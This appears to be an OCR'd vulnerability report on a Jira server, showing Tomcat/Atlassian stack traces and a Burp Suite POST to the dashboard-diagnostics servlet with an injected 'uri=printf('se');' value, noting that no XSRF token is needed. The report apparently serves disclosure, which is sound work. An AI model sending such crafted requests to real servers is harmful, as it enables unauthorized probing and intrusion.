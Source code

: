 	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
	at org.apache.catalina.valves.StuckThreadDetectionValve.invoke(StuckThreadDetectionValve.java:206)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
	at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:650)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:806)
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1498)
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
	at java.lang.Thread.run(Thread.java:748)

------------------------------------
Burp request
------------------------------------

POST /plugins/servlet/gadgets/dashboard-diagnostics HTTP/1.1
Host: jira.rbx.com 
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 17
Origin: https://jira.rbx.com
Connection: close
Referer: https://jira.rbx.com/secure/Dashboard.jspa
Cookie: Cookie info goes here(note: no xsrf token needed)
DNT: 1


uri=printf('se');
------------------------------------

-----------------	 
 Modules exposed:
-----------------

	 com.atlassian.gadgets.dashboard.internal.diagnostics.DiagnosticsException: java.lang.NullPointerException: null
	at com.atlassian.gadgets.dashboard.internal.diagnostics.DiagnosticsServlet.executeDiagnostics(DiagnosticsServlet.java:91)
	at com.atlassian.gadgets.dashboard.internal.diagnostics.DiagnosticsServlet.doPost(DiagnosticsServlet.java:58)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
	at com.atlassian.plugin.servlet.DelegatingPluginServlet.service(DelegatingPluginServlet.java:37)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
	at com.atlassian.plugin.servlet.ServletModuleContainerServlet.service(ServletModuleContainerServlet.java:45)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
	at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)